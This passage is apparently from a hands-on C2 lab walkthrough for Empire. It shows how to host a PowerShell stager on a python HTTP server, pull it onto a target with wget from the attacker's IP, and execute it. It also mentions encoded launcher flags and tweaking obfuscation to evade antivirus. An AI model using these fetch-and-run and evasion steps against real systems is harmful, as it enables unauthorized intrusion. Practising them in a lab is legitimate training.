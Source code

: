 ## Attacking Machine:

There are many ways that you can send the stager to the target machine, including SCP, phishing, and malware droppers; for this example, we will use a basic python3 server and wget to transfer the stager.

1. `python3 -m http.server`

Target Machine:

1. `wget TUN0_IP:8000/launcher.bat -outfile launcher.bat`

2.) `./launcher.bat`

  

![](https://i.imgur.com/xRfiQiS.png)

Below is what the multi/launcher PowerShell payload will look like with the _powershell -noP -sta -w 1 -enc_ launcher that we provided when creating the listener. The launcher will take the encoded payload and decode then run it, in this case, the payload will still get picked up by AV however you can adjust the launching and obfuscation commands to bypass AV or other detections.

![](https://i.imgur.com/XBa35J3.png)

  
After executing the stager, if you correctly set up both the stager and listener then an agent will check back in the agents tab.

Answer the questions below

Read the above and create a basic multi/launcher stager using the HTTP listener you created in Task 5

Execute the stager on the device you deployed in Task 2

Upload file
```php
upload /tmp/launcher.bat c:/windows/temp/launcher.bat
```

Execute file
```php
execute -f launcher.bat
```


